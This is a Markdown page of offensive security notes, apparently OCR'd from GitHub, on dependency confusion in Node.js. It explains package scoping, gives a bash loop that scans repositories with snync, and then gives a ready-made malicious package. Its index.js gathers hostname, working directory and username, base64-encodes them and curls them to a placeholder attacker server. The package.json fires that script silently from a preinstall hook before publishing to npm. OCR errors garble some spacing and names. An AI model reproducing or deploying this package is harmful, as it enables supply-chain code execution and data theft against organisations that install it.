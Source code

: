 ```yaml
---
layout: blank
pagetitle: Dependency Confusion
---
```


### Node.js

**Info**
- In Node, npm packages are stated in the package.json file
- Will look something like this:

```
"devDependencies" : {
    "my_test_framework": "^3.1.0",
    "another_dev_dependency": "1.0.0 - 1.2.0"
}
```
- The `^` symbol indicates versions equal to or higher than the version listed

**Package Scopes**
- Packages can be unscoped (public packages on npm)
    - Specified by listing the package name alone
- Can also be scoped
    - Belongs to a user/organization
    - Must be preceded by the organizations's name
        - `@org-name/package` or `@username/package`

**Exploitation**
- Find packages that are used without a reserved namespace (unscoped)
  - This could look like `org-name/package` (without the `@`)
- Node will then use the public package over the private one, allowing code execution
- [Synyc](https://github.com/snyk-labs/snync) is a good tool to scan for and recognize these packages:

```
# !/bin/bash
# Set the base directory to the current working directory
BASE_DIR =$( pwd )
# Loop through each directory in the base directory
for dir in " $BASE_DIR " /*/; do
    # Check if package . json exists in the directory
    if [ -f "${ dir } package . json " ]; then
        echo " Scanning repository : ${ dir }"
        # Run the npx snyk command in the directory
        npx snync -- directory " $dir "
    else
        echo " No package . json found in : ${ dir }. Skipping ... "
    fi
done
```
- Then you just have to host the package yourself

**Creating a Malicious package**
- Create `index.js`:

```
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;) && b=$(echo $a | base64) && curl -X POST {attacker-server} -d $b" , (error, data, getter) => {
    if (error){
        console.log("error", error.message);
        return;
    }
    if (getter){
        console.log(data);
        return;
    }
    console.log(data);
});
```
- Create `package.json`:

```
{
    "name":"{vulnerable_package_name}",
    "version":"{relevant_version_or_higher_if_^}",
    "description":"",
    "main":"main.js",
    "scripts":{
        "preinstall":"node inddex.js > /dev/null 2>&1",
        "test":"echo \"Error: no test specified\""
    },
    "author":"asdasfasd.asfasdasfasd",
    "license":"MIT"
}
```

- Then just run `npm public --access=public` and monitor attacker server